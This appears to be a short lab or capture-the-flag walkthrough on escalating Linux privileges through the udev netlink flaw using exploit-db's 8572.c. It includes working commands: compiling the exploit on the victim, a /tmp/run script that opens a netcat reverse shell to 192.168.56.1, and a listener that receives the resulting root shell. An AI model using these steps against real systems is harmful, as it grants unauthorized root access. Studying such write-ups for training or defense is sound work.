


# UDEVD

the exploit code is here:

#### `/usr/share/exploitdb/exploits/linux/local/8572.c`

we have to send it to victim machine and compile it there

after transferring and compiling with gcc 8572.c -o exploit , we have to create the file /tmp/runafter executing the exploit every command inside the run file will be executed as root. so we can write the run file like this:

#### `#!/bin/bash  nc -nv 192.168.56.1 1234 -e /bin/bash`

on attacker side:

#### `nc -nvlp 1234`

now we have to find the PID \(process identifier\) of the Netlink socket, which is usually the PID of the UDEVD process minus one. We can do that by running cat /proc/net/netlink, and the only nonzero PID should be the number we want. Verify that this is correct by running ps aux \| grep udev — it should be one number higher.

now run the exploit and we have a root shell in netcat:

